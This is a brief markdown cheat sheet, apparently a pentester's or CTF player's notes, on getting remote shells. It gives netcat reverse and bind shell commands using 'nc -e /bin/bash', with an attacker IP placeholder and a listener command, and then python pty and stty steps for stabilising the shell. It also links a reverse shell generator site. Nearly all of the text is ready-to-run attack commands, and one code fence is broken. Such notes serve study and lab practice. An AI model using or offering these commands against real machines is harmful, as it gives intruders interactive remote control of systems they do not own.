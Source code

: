 Reverse Shell Generator
>https://www.revshells.com/

---

## Reverse Shell example

on the attacking machine
```
sudo nc -lvnp 443
```
>starts a listener

on the target 
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```


---

## Bind Shell example

On the attacking machine
```n
c 10.10.36.67 <port>
```

On the target
```
nc -lvnp <port> -e "cmd.sh"
```
>--cmd.exe would contain code that starts a listener attached to a shell directly on the target

---

## Stabilisation

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
>have to explicitly state python,python2,python3

```
export TERM=xterm
```
>this will give us access to term commands such as clear

```
^Z 
```
>(press ctrl+Z to background the shell)
```
stty raw -echo; fg
```
>foregrounds the shell gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes

---
